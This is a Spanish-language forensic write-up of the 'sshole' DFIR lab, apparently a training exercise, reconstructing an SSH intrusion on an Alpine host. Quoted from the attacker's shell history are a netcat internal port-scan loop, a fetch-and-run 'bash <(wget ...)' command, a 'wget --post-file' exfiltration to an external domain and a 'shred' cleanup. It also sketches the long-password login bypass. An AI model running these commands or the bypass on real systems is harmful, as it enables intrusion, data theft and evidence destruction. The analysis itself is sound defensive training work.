# Evidencia — Análisis Forense de Incidente (Sherlock: sshole)

Simulando el rol de analista SOC/DFIR ante una intrusión en un entorno contenerizado
basada en CVE-2026-123158, se investigaron los artefactos de registro del laboratorio
forense Sherlock "sshole".

## Resumen ejecutivo

El sistema analizado, con hostname `dev-jumpbox`, es un host Alpine Linux v3.24.3
(confirmado como distribución basada en `musl libc`, condición necesaria para sshole).
El análisis de los logs de autenticación (`/var/log/messages`) reveló dos accesos SSH
exitosos no atribuibles a un uso legítimo de credenciales: primero sobre la cuenta
`root` y, más tarde, sobre la cuenta de servicio `adminsvc`. El análisis del historial
de comandos de esta última cuenta confirma actividad de post-explotación: reconocimiento
de red interna, descarga y ejecución de un script remoto, preparación de datos para
exfiltración y borrado antiforense de la evidencia.

## Entorno analizado

Se confirma mediante `/etc/os-release` que el sistema comprometido corre Alpine Linux
v3.24.3, una distribución basada en `musl libc` — condición arquitectónica indispensable
para que el host sea susceptible a sshole.



## Línea de tiempo del incidente

A partir de `/var/log/messages` se reconstruye la siguiente línea de tiempo de accesos SSH:

| Fecha / Hora | Host | Evento | Origen | Usuario |
|---|---|---|---|---|
| 06 Nov 2026, 06:43:05 | dev-jumpbox | Accepted password (login exitoso) | 192.168.72.131 | root |
| 06 Nov 2026, 11:27:05 | dev-jumpbox | Failed password (intento fallido) | 192.168.72.1 | adminsvc |
| 06 Nov 2026, 11:27:08 | dev-jumpbox | Accepted password (login exitoso, 3s después del fallo) | 192.168.72.1 | adminsvc |




El patrón de "fallo inmediatamente seguido de éxito" en el caso de `adminsvc` es
consistente con la técnica de sshole: un primer intento con credenciales normales (o una
contraseña de longitud regular) es rechazado correctamente, y el segundo intento — con
una contraseña de longitud entre 257 y 1024 caracteres — colisiona con el centinela de
cuenta deshabilitada y es aceptado.

## Artefactos del sistema de archivos

Estructura raíz del sistema y contenido de `/etc` y `/var/log`:






## Identificación de la cuenta comprometida y actividad post-explotación

Dentro de `/home` se identificó el directorio de la cuenta `adminsvc`, la misma cuenta
de servicio cuyo acceso SSH exitoso quedó registrado en el log de autenticación:





El archivo `.ash_history` (historial de shell de Alpine/BusyBox) contiene la evidencia
más relevante de la actividad post-explotación del atacante tras obtener acceso:



**Reconstrucción de la cadena de post-explotación a partir del historial de comandos:**

1. Reconocimiento del sistema de archivos local (`ls -la`).
2. Escaneo de puertos sobre toda la red interna `192.168.18.0/24` usando netcat
   (`for ip in {1..254}; do nc -zvw 1 192.168.18.$ip 1-65535 ...`), con los resultados
   guardados y revisados en `scanreport.txt` — movimiento lateral en fase de
   reconocimiento.
3. Descarga y ejecución inmediata de un script remoto de terceros
   (`bash <(wget -qO- https://raw.githubusercontent.com/.../setup.sh)`), un patrón
   típico de instalación de un *dropper* o *backdoor* adicional.
4. Preparación de un archivo oculto de datos en `/tmp/.devenv`, consistente con
   *staging* de credenciales o información recolectada para exfiltración.
5. Exfiltración de dicho archivo mediante una petición HTTP POST hacia un dominio
   externo (`wget --post-file=/tmp/.devenv -O- https://devv.coding.eu/process`), que
   actúa como servidor de comando y control (C2) o punto de recolección del atacante.
6. Antiforensia: borrado seguro del archivo de *staging* (`shred -u /tmp/.devenv`) para
   eliminar evidencia del disco antes de cerrar la sesión (`exit`).

## Conclusión del análisis forense

La evidencia recolectada confirma un compromiso completo del host `dev-jumpbox`
mediante la explotación de CVE-2026-123158 (sshole), con acceso inicial no autorizado
sobre dos cuentas (`root` y `adminsvc`) seguido de reconocimiento de red interna,
despliegue de herramientas adicionales descargadas desde Internet, y exfiltración de
datos hacia infraestructura externa, cerrando con medidas de antiforensia por parte del
atacante. Esto valida en un entorno de laboratorio el impacto descrito en los avisos
públicos del CVE: acceso interactivo no autenticado con las mismas capacidades que
tendría la cuenta legítima comprometida.


